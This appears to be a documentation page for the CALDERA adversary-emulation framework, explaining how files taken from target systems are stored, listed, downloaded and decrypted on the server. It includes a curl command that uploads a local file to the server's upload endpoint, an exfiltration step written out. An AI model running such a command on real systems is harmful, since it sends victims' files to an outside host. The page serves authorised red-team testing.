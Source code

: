 # Exfiltration

After completing an operation a user may want to review the data retreived from the target system. This data is automatically stored on the CALDERA server in a directory specified in [/conf/default.yml](Server-configuration.html#the-existing-default-yml).

## Exfiltrating Files

Some abilities will transfer files from the agent to the CALDERA server. This can be done manually with 
```yaml
curl -X POST -F 'data=@/file/path/' http://server_ip:8888/file/upload
```
Note: localhost could be rejected in place of the server IP. In this case you will get error 7. You should type out the full IP.
These files are sent from the agent to server_ip/file/upload at which point the server places these files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-configuration.html#the-existing-default-yml). By default it is set to /tmp/caldera

## Accessing Exfiltrated Files

The server stores all exfiltrated files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-configuration.html#the-existing-default-yml). By default it is set to /tmp/caldera
Files can be accessed by pulling them directly from that location when on the server and manually unencrypting the files.

To simplify accessing exfiltrated files from a running caldera server, you can go the the advanced section in the CALDERA UI and click on the 'exfilled files' section.
From there you can select an operation (or all) from the drop down to see a listing of all the files in the exfil folder corresponding to the operation (specifically works with sandcat agents or any other agent using the same naming scheme for file upload folder) or in the directory along with the option to select any number of files to download directly to your machine.
All downloaded files will be unencrypted before passing along as a download.

## Accessing Operations Reports

After the server is shut down the reports from operations are placed inside the directory specified by the [/conf/default.yml to key "reports_dir"](Server-configuration.html#the-existing-default-yml). By default it is also set to /tmp


## Unencrypting the files
The reports and exfiltrated files are encrypted on the server. To view the file contents the user will have to decrypt the file using /app/utility/file_decryptor.py . This can be performed with:

```shell
python /app/utility/file_decryptor.py --config /conf/default.yml _input file path_
```

The output file will already have the _decrypted tag appended to the end of the file name once the decrypted file is created by the python script.
